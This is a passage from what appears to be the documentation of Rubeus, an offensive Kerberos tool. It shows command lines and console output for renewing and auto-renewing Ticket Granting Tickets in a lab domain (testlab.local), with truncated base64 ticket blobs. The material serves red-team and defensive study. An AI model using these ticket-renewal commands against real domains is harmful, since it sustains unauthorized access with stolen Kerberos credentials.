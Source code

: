     v1.0.0

    [*] Action: Renew TGT

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building TGS-REQ renewal for: 'TESTLAB.LOCAL\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1500 bytes
    [*] Received 1510 bytes
    [+] TGT renewal request successful!
    [*] base64(ticket.kirbi):

        doIFmjCCBZagAwIBBaEDAgEWooIErzCCBKthggSnMIIEo6ADAgEFoQ8bDVRFU1RMQUIuTE9DQUyiIjAg
        ...(snip)...

The **/autorenew** flag will take an existing /ticket .kirbi file, sleep until endTime-30 minutes, auto-renew the ticket and display the refreshed ticket blob. It will continue this renewal process until the allowable renew-till renewal window passes.

    C:\Rubeus>Rubeus.exe renew /ticket:doIFFj...(snip)... /autorenew

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0

    [*] Action: Auto-Renew TGT


    [*] User       : harmj0y@TESTLAB.LOCAL
    [*] endtime    : 9/24/2018 3:34:05 AM
    [*] renew-till : 9/30/2018 10:34:05 PM
    [*] Sleeping for 165 minutes (endTime-30) before the next renewal
    [*] Renewing TGT for harmj0y@TESTLAB.LOCAL

    [*] Action: Renew TGT

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building TGS-REQ renewal for: 'TESTLAB.LOCAL\harmj0y'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1370 bytes
    [*] Received 1378 bytes
    [+] TGT renewal request successful!
    [*] base64(ticket.kirbi):

          doIFFjCCBRKg...(snip)...


    [*] User       : harmj0y@TESTLAB.LOCAL
    [*] endtime    : 9/24/2018 8:03:55 AM
    [*] renew-till : 9/30/2018 10:34:05 PM
    [*] Sleeping for 269 minutes (endTime-30) before the next renewal
